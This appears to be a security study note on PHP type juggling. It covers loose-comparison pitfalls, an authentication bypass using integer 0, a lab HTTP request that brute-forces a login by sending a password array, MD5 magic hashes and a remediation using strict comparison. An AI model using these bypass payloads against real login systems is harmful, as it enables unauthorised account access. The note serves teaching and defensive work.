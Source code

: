 >[!warning]
>**PHP does not require (or support) explicit type definition in variable declaration**; a variable's type is determined by the context in which the variable is used. 
>That is to say, if a string value is assigned to variable `$var`, `$var` becomes a string. If an int value is then assigned to `$var`, it becomes an int.

![|700](../../zzz_res/attachments/Pasted%20image%2020221210135017.png)

![|700](../../zzz_res/attachments/Pasted%20image%2020221210135040.png)

# Examples

During the comparison of variables of **different types**, PHP will first **convert them to a common**, comparable type.

```php
$example_int = 7
$example_str = "7"
if ($example_int == $example_str) {   
	echo("PHP can compare ints and strings.")
}
```

The comparison between *7* and *“7”* returns *True* because the two variables are both converted to a common type (int) therefore resulting equals.

The same behavior happens here:

```php
if ("7 puppies" == 7){
	return 0;
}
```

The number is extracted from the string and is then compared with the integer.

Let’s see another example:

```php
if ("Puppies" == 0) {
	retrun 0;
}
```

Also in this case the comparison returns *True* because the string is converted to a 0 in order to be compared with a number.

# Exploitation

## Authentication bypass

```php
if ($_POST["password"] == "Admin_Password") {login_as_admin();}
```

Passing an **integer** *0* as a password the comparison become `(0 == “Admin_Password”) -> True`, granting the access without knowing the real password.

## Rate-limit bypass

Type confusions attacks can also be used to bypass brute-force protection mechanism based on rate limit:

```http
POST /login HTTP/1.1
Host: 0a690029038e65bfc04ed2d1007d0057.web-security-academy.net
Cookie: session=Zb1D8NGHIvy10kSH26Xrwex4kxtvUPHZ
Content-Length: 1194
Sec-Ch-Ua: "Not?A_Brand";v="8", "Chromium";v="108", "Google Chrome";v="108"
Sec-Ch-Ua-Platform: "Windows"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: https://0a690029038e65bfc04ed2d1007d0057.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a690029038e65bfc04ed2d1007d0057.web-security-academy.net/login
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"username":"carlos","password":["123456",
"password",
"12345678",
"qwerty",
"123456789",
"12345",
"1234",
"111111",
"1234567",
...
"moscow"
],"":""}
```


## Magic Hashes

>[!info]
>Further information on [Magic Hashes](https://www.whitehatsec.com/blog/magic-hashes/)

The hexadecimal character space used for the representation of various hash types is **a-fA-F0-9**. 
This implies that it may be possible to discover a plain-text value whose MD5 hash conforms to the format of scientific exponent notation. In the case of MD5, that is indeed true and the specific string was discovered by Michal Spacek.

```php
student@atutor:~$ php -a
Interactive mode enabled
php > echo md5('240610708');
0e462097431906509019562988736854
php > var_dump('0e462097431906509019562988736854' == '0');
bool(true)
```

The MD5 of this particular string (listing 148) translates to a valid number formatted in the [scientific exponential notation](https://www.php.net/manual/en/language.types.float.php), and its value evaluates to zero.

# Remediation

When comparing values, always try to use the type-safe comparison operator `"==="` instead of the loose comparison operator `"=="`. This will ensure that PHP does not type juggle and the operation will only return True if the types of the two variables also match. 

```php
$example_int = 7
$example_str = "7"
if ($example_int === $example_str) {   
	echo("PHP can compare ints and strings.");
}
```

In this scenario, the comparison result is *False*

---

# External Resources

- [PHP Type Juggling Vulnerabilities](https://medium.com/swlh/php-type-juggling-vulnerabilities-3e28c4ed5c09)